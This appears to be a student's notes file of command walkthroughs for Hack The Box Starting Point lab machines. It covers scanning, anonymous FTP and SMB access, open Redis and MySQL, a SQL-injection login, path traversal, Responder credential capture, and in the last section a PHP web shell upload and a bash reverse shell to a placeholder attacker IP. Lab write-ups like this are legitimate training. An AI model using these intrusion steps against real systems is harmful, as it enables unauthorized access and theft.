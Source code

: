 ## Meow challenge:
- sudo openvpn {filename.opvn}
- ping {target_ip}
- sudo nmap -sV 10.129.239.25
- telnet {target_ip}


## Fawn challenge
- sudo nmap {target_ip}
- sudo nmap -sV {target_ip}
- sudo apt install ftp -y
- ftp -h
- ftp {target_ip}
  `username: anonymous
  `password:
- ftp> help
- ftp> ls
- ftp> get flag.txt
- ftp> bye
- cat flag.txt


## Dancing challenge:
- sudo nmap -sV {target_ip}
- sudo apt-get install smbclient
- smbclient -L 10.129.239.172
- smbclient \\\\10.129.239.172\\ADMIN$
- smbclient \\\\10.129.239.172\\C$
- smbclient \\\\10.129.239.172\\WorkShares
- smb: \> help
- smb: \> ls
- smb: \> cd Amy.J
- smb: \Amy.J\> ls
- smb: \Amy.J\> get worknotes.txt
- smb: \Amy.J\> cd ..
- smb: \> cd James.P
- smb: \James.P\> ls
- smb: \James.P\> get flag.txt
- cat flag.txt


## Redeemer challenge:
- sudo opstarting_point_ahmed00078.ovpn8.ovpn
- nmap -p- -sV 10.129.28.47
- sudo apt install redis-tools
- redis-cli --help
- redis-cli -h 10.129.28.47
- 10.129.28.47:6379> info
- 10.129.28.47:6379> select 0
- 10.129.28.47:6379> keys *
- 10.129.28.47:6379> get stor
- 10.129.28.47:6379> get temp
- 10.129.28.47:6379> get numb
- 10.129.28.47:6379> get flag


## Apointment challenge:
- sudo opstarting_point_ahmed00078.ovpn8.ovpn
- sudo nmap -sC -sV 10.129.164.88
- http://10.129.164.88/
- Username: admin'#
- Password: abc123


## Sequel challenge:
- sudo nmap -sC -sV 10.129.95.232
- sudo apt update && sudo apt install mysql *
- mysql --help
- mysql -h 10.129.95.232 -u root
- SHOW databases;
- USE htb;
- SHOW tables;
- SELECT * FROM config;


## Crocodile challenge:
- nmap -sC -sV 10.129.146.153
- ftp-anon: Anonymous FTP login allowed (FTP code 230)
- ftp 10.129.146.153
- Name (10.129.146.153:ahmed20078): anonymous
- ftp> help
- ftp> dir
- ftp> get allowed.userlist
- ftp> get allowed.userlist.passwd
- ftp> exit
- cat allowed.userlist
- cat allowed.userlist.passwd
- gobuster dir --url http://10.129.146.153/ --wordlist /media/ahmed20078/ahmed78/Documents/Cyber Projects/go/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html
- http://10.129.146.153/login.php
- admin:svndkfngksjvrdkufhkr


## Responder challenge:
- nmap -p- --min-rate 1000 -sV 10.129.95.234
- echo "10.129.95.234 unika.htb" | sudo tee -a /etc/hosts
- http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
- git clone https://github.com/lgandx/Responder
- sudo python2 Responder.py -I tun0
- flag: `ea81b7afddd03efaa0945333ed147fac`


## Three challenge:
- sudo nmap -sV 10.129.101.223
- echo "10.129.101.223 thetoppers.htb" | sudo tee -a /etc/hosts
- Tools: `gobuster` , `wfuzz` and `feroxbuster`
- gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
- echo "10.129.101.223 s3.thetoppers.htb" | sudo tee -a /etc/hosts
- apt install awscli
- aws configure
- aws --endpoint=http://s3.thetoppers.htb s3 ls
- aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
- echo '<?php system($_GET["cmd"]); ?>' > shell.php
- aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
- http://thetoppers.htb/shell.php
- http://thetoppers.htb/shell.php?cmd=id
- ifconfig
- bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
- nc -nvlp 1337
- python3 -m http.server 8000
- cat /var/www/flag.txt
- flag: `a980d99281a28d638ac68b9bf9453c2b`
